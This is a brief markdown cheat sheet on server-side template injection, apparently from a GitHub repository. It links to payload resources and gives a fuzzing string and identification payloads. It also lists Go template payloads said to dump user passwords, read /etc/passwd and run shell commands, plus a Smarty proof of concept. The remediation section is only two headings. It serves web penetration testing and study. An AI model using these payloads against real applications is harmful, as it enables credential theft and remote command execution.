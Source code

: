 # Resource for more complicated payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

# https://book.hacktricks.xyz/

## Payloads Fuzzing: ${{<%'"}}%

## PoC Payload for Identification: ${7*'7'}

## Explaining further about more template engines here: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Remediation:

### 1: Secure methods

### 2: Sanitization

## Example payloads:

## Go SSTI

### 1) {{ .Password }} (Fetches the passwords of all users) Hint: It depends on the struct the application has been made of to use the correct one! 

### 2) {{ .GetFile "/etc/passwd" }} (Gets the passwd linux file)

### 3) {{ .ExecuteCmd "whoami" }} Executes commands

### 4) {{ . }} (Dumps variables)

## PHP - Smarty

### PoC Payload

    {'Hello'|upper}
  
